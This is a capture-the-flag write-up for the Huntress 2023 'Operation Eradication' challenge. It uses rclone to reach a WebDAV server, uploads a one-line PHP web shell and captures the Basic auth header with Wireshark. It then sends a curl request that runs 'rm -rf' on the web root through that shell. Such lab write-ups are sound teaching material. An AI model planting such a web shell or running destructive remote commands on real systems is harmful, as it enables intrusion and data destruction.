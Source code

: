 ```yaml
---
pub: true
title: "Operation Eradication"
description: "Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!"
from: "huntress (2023)"
date: "2023-10-14"
type: "ctf"
tags: ["malware", "web"]
---
```


# Operation Eradication

<aside>
Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment!
<strong>They stole our data!</strong>
Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and
delete all the data they stole!?
</aside>


The challenge gives us a containerized HTTP server instance, alongside a file with no extension named simply `operation_eradication`.
Passing it as an argument to the file command reveals it's just plain ASCII text. Viewing its contents, we are presented with the following:

```toml
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

After a bit of Googling, we can ascertain that the remote server is likely running a WebDAV ("Web-Distributed Authoring and Versioning") protocol service, which is effectively a
(apparently now-obselete) type of network-accessible file storage service. As indicated by the config's `url` param, we are able to access the service's front-end by adjusting the `localhost`
SLD to our assigned instance: `http://chal.ctf.games:30236/webdav`. The page is simply a blank white screen, so I assume we need to authenticate before we are able to see
the _actual_ content (though nothing indicates this explicitly).

After briefly reviewing WebDAV documentation alongside the tech stack used on the WebDAV endpoint, we can see the server accepts authentication via a `Basic` Authorization header, which we can craft by running
`echo -n <username>:<password> | base64 --wrap=0` in a bash terminal, replacing the `<username>` and `<password>` strings with the user's authentication info.

![1](/img/operation_eradication_img/Untitled.webp)
>The root endpoint

![Untitled](/img/operation_eradication_img/Untitled_1.webp)
>The `/webdav` endpoint

To me, those `user` and `pass` strings look like they've been hashed or encrypted, but we can try to make a GET request using the strings as the username and password anyway:
```bash
# base64-encode `username:password`
USER_AUTH=$(echo -n "VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r:HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" | base64 --wrap=0)

# make a request
curl http://chal.ctf.games:30236/webdav
   -H "Authorization: Basic $USER_AUTH"
```

As expected, this isn't correct.

![Untitled](/img/operation_eradication_img/Untitled_2.webp)

We can try to do a bit of hashcracking & decryption, but we have no idea how these strings have been hashed - the `user` and `pass` strings are 72 characters long (i.e they don't look like a common hash type), and online hash analysis tools, Google, and ChatGPT similarly have no clue.
We can instead Google the config file's layout, and find that it (probably) belongs to a WebDAV client CLI tool named `Rclone`.

Downloading Rclone, I was unable to simply dump the provided configuration file into the corresponding Rclone folder, but we can instead run through the setup to create our own (empty) config file,
and then replace it's content with that of the provided file:

```powershell
.\rclone config

# ...
# this runs us through a config setup wizard...
# ...

Current remotes:

Name                 Type
====                 ====
huntress             webdav

# ...

s) Set configuration password
q) Quit config
e/n/d/r/c/s/q> q

# then replace it's contents with our desired config
# (don't forget that the service isn't running locally):

echo "[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5" > C:\Users\pls\AppData\Roaming\rclone\rclone.conf

cat C:\Users\pls\AppData\Roaming\rclone\rclone.conf
[huntress]
type = webdav
url = http://chal.ctf.games:30236/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

Having never used Rclone or interacted with a WebDAV service, it took a moment to get used to the commands and how we are meant to interact with a WebDAV service.
Essentially, we don't have to login and use an interactive shell like we might over SSH or FTP; rather, we simply indicate what config to use and run the command.

Lets try listing the WebDAV’s contents to see if our configuration works:

```powershell
.\rclone tree huntress:
/
├── Accounting
│   ├── 2021
│   │   └── AnnualReport.pdf
│   ├── 2022
│   │   ├── Quarter1_MonthlyRevenue.xlsx
# ...
│   └── Training
│       ├── 2022
│       │   ├── AdvancedSalesSkillsCourse.pdf
│       │   └── NewSalesRepTraining.pdf
│       └── SalesTrainingManual.pdf
```

Looks like its functional. Unfortunately, we - or, rather, our WebDAV credentials - do not have the necessary permissions to run `.\rclone delete huntress:/`.

We do, however, have write permissions, and so we are able to upload and save files onto the machine.

As is my immediate thought with any PHP service during a CTF, we are probably meant to gain code execution as `www-data` (who would usually have ownership of `/var/www/html/`, which likely contains the `/webdav` endpoint),
so my immediate thought is that we can try to execute code through a PHP script.

As previously stipulated, Rclone/WebDAV is non-interactive, so we’ll have to try to run something from the HTTP service. The service isn't locally available either, so the remote machine probably can't issue a direct call to our
machine, and we would need to run a tunnel via `ngrok` or something, and I honestly don’t want to overcomplicate the task when we can do what we want via a PHP `cmd` script and pass the server shell commands in GET request parameters:

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
> A simple PHP script that will run commands on the remote machine via the `system($cmd)` builtin, where `$cmd` is defined through a URL GET request parameter.

After copying the cmd script over, we can see that it has been successfully written to the root directory of the WebDAV endpoint:

```powershell
.\rclone copy C:\...\exec.php huntress:/
.\rclone ls huntress:/
       50 exec.php
  1745724 ProductDevelopment/2022/ProductRoadmap.pdf
  3570194 ProductDevelopment/2023/ProductRoadmap.pdf
  3510400 HumanResources/EmployeeHandbook.pdf
  7680849 ProductDevelopment/Specifications/NewProductSpecs.pdf
  3891213 ProductDevelopment/Specifications/UpdatedProductSpecs.pdf
  ...
```

We are now missing one final piece before we can wipe the endpoint - we still don’t have the authentication info, and the approach I am taking requires that we make a request _without_ Rclone.

Because the service uses unencrypted HTTP, we can intercept traffic routed between Rclone and WebDAV using Wireshark, resulting in the following:

```powershell
PROPFIND /webdav/ HTTP/1.1
Host: chal.ctf.games:30236
User-Agent: rclone/v1.64.2
Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz
Depth: 1
Referer: http://chal.ctf.games:30236/webdav/
Accept-Encoding: gzip
```
> Intercepted header information from a `.\rclone ls huntress:/` command.

We can now use `curl` to execute `bash -c "rm -rf <[the webdav endpoint]>...";`  as a `GET` param passed to the `exec.php` file we just uploaded - I’ve included an additional `echo 'done'` command after running `rm -rf` just to
ensure I know whether or not we executed any commands, as a sanity check if something doesn't end up working.

Realistically, though, we are just querying the script we uploaded, and using the URL param `?cmd=..` to open a bash shell and literally just execute bash commands. There is the authentication stuff here, but that was basically
pre-generated by Wireshark anyway.

The final request (along with it's response) is as follows:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: localhost' -H $'User-Agent: rclone/v1.64.2' \
    -H $'Authorization: Basic VkFIeWNZaEsyYXc5VE5GR1NwTWYxYl8yWk5uWnVBTmNJOC0yNmF3R0xZa3dSekp3UF9idU5zWjFlUXdSa21qUW1WenhNZTVyOlN1cGVyRXh0cmVtZWx5U2VjdXJlUGFzc3dvcmRMaWtlQWx3YXlz' \
		-H $'Depth: 1' -H $'Referer: http://chal.ctf.games:30236/webdav/' -H $'Accept-Encoding: gzip' -H $'Content-Type: application/x-httpd-php' \
    $'http://chal.ctf.games:30236/webdav/exec.php?cmd=bash+-c+\"rm+-rf+/var/www/html/webdav/*;+echo+\'done.\'\"'

HTTP/1.1 200 OK
Date: Fri, 20 Oct 2023 18:24:02 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Encoding: gzip
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

We can go back and refresh the webapp's root directory, where we are presented with our flag:

![Untitled](/img/operation_eradication_img/Untitled_3.webp)

